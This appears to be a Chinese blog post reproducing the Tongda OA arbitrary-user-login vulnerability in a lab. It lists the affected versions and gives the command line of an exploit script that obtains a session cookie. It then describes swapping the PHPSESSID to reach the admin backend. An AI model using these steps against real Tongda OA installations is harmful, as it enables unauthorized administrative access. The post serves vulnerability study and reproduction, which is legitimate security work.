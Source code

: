 **目录**

[通达OA任意用户登录漏洞](#t0 "通达OA任意用户登录漏洞")

[漏洞描述](#t1 "漏洞描述")

[影响范围](#t2 "影响范围")

[漏洞复现](#t3 "漏洞复现")

* * *

通达OA任意用户登录漏洞
------------

### 漏洞描述

通达OA官方于4月17日发布安全更新。在该次安全更新中修复了包括任意用户登录在内的高危漏洞。攻击者通过构造恶意请求，可以直接绕过登录验证逻辑，伪装为系统管理身份登录OA系统。

### 影响范围

*   通达OA2017 (V10.x)
    
*   通达OAV11.x < 11.5.200417版本
    

### 漏洞复现

搭建好环境，这里环境使用的是通达OA2017版

![](https://img-blog.csdnimg.cn/20210103154132643.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

利用脚本获取cookie

```
python3 tongda-oA.py -v 2017 -url http://192.168.10.132:8080/      
如果是V11版本的话      
python3 tongda-oA.py -v 11 -url http://192.168.10.132:8080/         11.x版本
```


![](https://img-blog.csdnimg.cn/20210103154157580.png)

访问链接： [http://192.168.10.132:8080/general/index.php?isIE=0&modify\_pwd=0](http://192.168.10.132:8080/general/index.php?isIE=0&modify_pwd=0 "http://192.168.10.132:8080/general/index.php?isIE=0&modify_pwd=0")

提示用户未登陆

![](https://img-blog.csdnimg.cn/20210103154211829.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

用插件将cookie中的PHPSESSID改为脚本获取的

![](https://img-blog.csdnimg.cn/20210103154225249.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

刷新一下即可进入后台

![](https://img-blog.csdnimg.cn/20210103154234532.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

漏洞环境：[通达OA2017；通达OA2017\_通达oa2017,oa通达-其它文档类资源-CSDN下载](https://download.csdn.net/download/qq_36119192/14016066 "通达OA2017；通达OA2017_通达oa2017,oa通达-其它文档类资源-CSDN下载")